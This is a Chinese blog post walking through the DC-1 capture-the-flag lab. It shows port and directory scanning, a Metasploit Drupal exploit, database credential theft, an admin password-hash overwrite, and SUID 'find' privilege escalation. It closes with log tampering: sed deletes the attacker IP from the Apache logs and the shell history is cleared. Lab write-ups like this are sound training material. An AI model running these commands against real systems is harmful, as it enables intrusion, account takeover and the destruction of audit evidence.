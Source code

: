```yaml
---
layout: post
title: DC-1
subtitle: DC-1
date: 2025-07-07 14:59
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

## 信息搜集

### 主机发现

```shell
arp-scan -l
namp -T4 -A -p- 192.168.163.131 # 扫描端口
dirb http://192.168.163.131 # 扫描目录
whatweb -v 192.168.163.131
```

### 渗透
```shell
msfconsole
> search drupal
> use <id>
> set payload payload/...
> set rhosts <ip>
> options
> run
```
#### 获取flag1
![Pasted%20image%2020250707150809.png](https://img.ghostliner.top/arJvR1.png)

提示查找配置文件
#### 获取flag2

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')" #优化显示
find . -name "set*" #搜索设置文件
```

![Pasted%20image%2020250707150929.png](https://img.ghostliner.top/MCGvyt.png)

![Pasted%20image%2020250707151035.png](https://img.ghostliner.top/LVs8FM.png)

#### 获取flag3

获取到数据库信息
```
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
```

```shell
mysql -h 127.0.0.1 -P 3306 -u dbuser -pR0ck3t
```

```mysql
use drupaldb;
show tables;
show columns from users;
select * from users where uid=1;
update users set pass="$S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g" where uid=1;
```

```shell
find . -name "*.sh"
./scripts/password-hash.sh 123
# admin原密码 $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
# 现密码(123) $S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g
```

admin登录，搜索页面发现flag3
![Pasted%20image%2020250707155935.png](https://img.ghostliner.top/btkBWY.png)
#### 获取flag4

```shell
cat /etc/passwd
ls /home/flag4
cat /home/flag4/flag4.txt
```

![Pasted%20image%2020250707151856.png](https://img.ghostliner.top/Tw3JiS.png)

![Pasted%20image%2020250707151953.png](https://img.ghostliner.top/Gq0tZA.png)
#### 获取flag5

按提示提权

```shell
find / -perm -4000 -type f 2>/dev/null # 判断是否能提权
find / -perm -u=s -type f  2>/dev/null
find / -exec "/bin/bash" -p \; # 提权
```

![提权成功](https://img.ghostliner.top/tMPT5d.png)

提权成功，获取flag5

![Pasted%20image%2020250707161219.png](https://img.ghostliner.top/weYUZl.png)
## 痕迹清除

### 网站日志清除

```shell
find /  -type f -name "access*"
sed -i '/192.168.163.132/d' /var/log/apache2/access.log
find /  -type f -name "error*"
sed -i '/192.168.163.132/d' /var/log/apache2/error.log
```
### 数据库恢复和日志清除

![Pasted%20image%2020250707165639.png](https://img.ghostliner.top/rDCHQO.png)

```mysql
show global variables like "%log%";
```

### history

```shell
history -c
```